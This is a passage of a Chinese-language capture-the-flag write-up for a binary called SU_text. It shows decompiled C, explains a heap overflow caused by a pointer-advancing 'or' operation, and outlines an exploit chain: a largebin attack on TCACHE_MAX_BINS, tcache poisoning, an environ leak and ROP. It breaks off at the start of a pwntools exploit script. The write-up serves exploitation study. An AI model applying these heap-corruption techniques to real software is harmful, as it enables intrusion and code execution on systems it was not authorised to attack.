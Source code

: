 ```c
  v3 = a1 + 1;
  chunk[0] = (_DWORD *)heap_ptr[2 * v4];
  while ( *v3 )
  {
    v1 = *v3;
    if ( v1 == 16 )
    {
      v3 = (char *)ops1((__int64)(v3 + 1), chunk[0]);
    }
    else
    {
      if ( v1 != 17 )
        _exit(1);
      v3 = (char *)ops2((__int64)(v3 + 1), chunk);
    }
  }
  return v3 + 1;
}
```
然后有人一开始认为 ops1 ops2 函数都是传的 chunk[0]... 所以就卡了 gg   
然后漏洞是一个堆溢出，具体成因如下：    
它 ops1 里面有俩 subhandler 有往堆内存 load 和 store 的功能如下    
```c
unsigned int *__fastcall store(unsigned int *a1, __int64 a2)
{
  if ( *a1 > 0x410 )
    _exit(1);
  *(_QWORD *)(a2 + *a1) = *(_QWORD *)(a1 + 1);
  return a1 + 3;
}
```
其中虽然有 offset <= 0x410 的要求（而我们分配的堆块大小都是 0x418+），但是同时 ops2 中的 op 可以增大该 do_ops 里面的 chunk[0] 指针，如下    
```c
_DWORD *__fastcall or(_DWORD *a1, _DWORD **a2)
{
  if ( **a2 )
    _exit(1);
  *(*a2)++ = a1[1] | *a1;
  return a1 + 2;
}
``` 
其中传参为 `v3 = or((_DWORD *)(a1 + 1), chunk);`     
所以可以有一个堆溢出    
（有个傻子一开始错认为漏洞是任意地址写...但是只能写之前是0的内存...所以就不会做了）    
### 利用
嗯，就打 largebin attack 就行，但是可能按照之前的写 IO_list_all/stdout 可能不太行，因为触发 IO 流是在 printf 处，而在同一个 payload 中需要完成 1. 增加一堆 xor 来越界写到后一个堆块，2. 在后一个堆块写一堆 fake_IO_file，栈迁移的板子，ROP 之类的，所以担心给的输入的空间可能有点不够    
所以就参考 https://www.anquanke.com/post/id/235821 改 TCACHE_MAX_BINS 为很大数，从而使得原先应被放到 unsorted bin/large bin 的块被塞到了 tcache 里面，然后就可以 tcache poisoning 打 environ leak 然后栈溢出了（感觉有的时候还是打栈比较简单啊hhh）     
### exp
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
# might need largebin attack or unlink
p = process("./SU_text")
libc = ELF("./libc.so.6")
# 逆向的时候逆错了，所以想了很久不知道咋打
# leak first
def create(idx,siz):
    return b"\x01\x10"+p8(idx)+p32(siz)

def remove(idx):
    return b"\x01\x11"+p8(idx)
```
